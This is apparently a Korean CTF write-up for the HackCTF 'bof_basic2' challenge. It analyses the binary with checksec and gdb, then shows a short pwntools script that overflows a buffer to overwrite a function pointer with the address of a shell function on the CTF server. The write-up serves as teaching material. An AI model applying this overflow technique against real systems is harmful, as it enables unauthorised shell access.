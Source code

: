 

## [HackCTF] bof_basic2

---



### 0x00. Binary Analysis (static)

---

![image](https://user-images.githubusercontent.com/33051018/75606869-94bc0b00-5b34-11ea-850f-1787e893f0d3.png)

`file` 명령어를 통해 바이너리 정보 습득.

![image](https://user-images.githubusercontent.com/33051018/75606917-39d6e380-5b35-11ea-829d-65c7d8f589ea.png)

`checksec` 스크립트를 통해 바이너리에 적용된 보호기법 확인.

![image](https://user-images.githubusercontent.com/33051018/75606939-7dc9e880-5b35-11ea-84b5-1b9c22aa50da.png)

`info func` 명령어를 실행시켜보니 `shell`, `sup` 이라는 이상한 함수들이 있다, 일단 참고하도록 함.



### 0x01. Binary Analysis (Dynamic)

---

일단 바이너리를 실행시켜보도록 한다.

![image](https://user-images.githubusercontent.com/33051018/75606979-e5803380-5b35-11ea-83bb-15a11db1b0fb.png)

이전 문제와 비슷한 흐름이다.

실행하자마자 입력을 받고 이후에 일련의 문자열을 출력한다.

메인 함수를 살펴본다.

![image](https://user-images.githubusercontent.com/33051018/75606954-a7830f80-5b35-11ea-9854-27cefb85d59d.png)

`main` 함수를 `disassemble` 하면 위와 같은 모습을 확인할 수 있으며 메인의 구성은 매우 간단했다.

주요 `instruction`에 대해서만 설명을 진행하겠다.

`main+41~48` : `eax` 레지스터에 `ebp-0x8c` 의 주소값을 담고 `eax`를 `push` 하여 `fgets`함수의 인자로 사용한다.
즉, 입력을 받는 버퍼의 위치의 시작주소는 `ebp-0x8c` 다.

`main+56~59` : `eax` 레지스터에 `ebp-0xc`의 주소값을 담고 `eax`를 `call` 한다.

**즉, `ebp-0xc` 가 참조하는 값을 호출하는 로직이며 이를 이용하면 다른 함수를 호출할 수 있다.**

이를 이용하여 문제를 풀기 위해서는 쉘을 실행시켜주는 함수가 필요하다.

현재 `ebp-0xc`가 참조하고 있는 값을 확인해본다.

![image](https://user-images.githubusercontent.com/33051018/75607761-c08fbe80-5b3d-11ea-89f1-362491f37a73.png)

`0x080484b4` 주소를 참조하고 있었다. 이것이 무엇인지 확인해본다.

![image](https://user-images.githubusercontent.com/33051018/75607797-02206980-5b3e-11ea-99ed-ac3046196a60.png)

처음에 `info func` 명령어를 통해 확인했던 함수들 중 `sup` 함수이다.

그렇다면, 이름부터 의미심장했던 `shell` 함수를 살펴보자.

![image](https://user-images.githubusercontent.com/33051018/75607836-47dd3200-5b3e-11ea-9050-795ee6c2e02e.png)

예상대로 쉘을 열어주는 함수이다.

이제 `exploit`을 위한 모든 준비는 끝났다.

버퍼 입력위치로 부터 `ebp-0xc`까지 더미로 채욱고, `shell`함수의 주소를 `append`해줘 페이로드를 구성한다.



### 0x02. Exploit

---

```python
from pwn import *

#p = process('./bof_basic2')				# local
p = remote('ctf.j0n9hyun.xyz', 3001)		# remote

shell_addr = 0x804849b						# shell func addr

payload = 'A' * (0x8c - 0xc)				# dummy
payload += p32(shell_addr)

p.sendline(payload)

p.interactive()
```



**Result**

---

![image](https://user-images.githubusercontent.com/33051018/75608048-83c4c700-5b3f-11ea-8d1b-2b4294490a13.png)

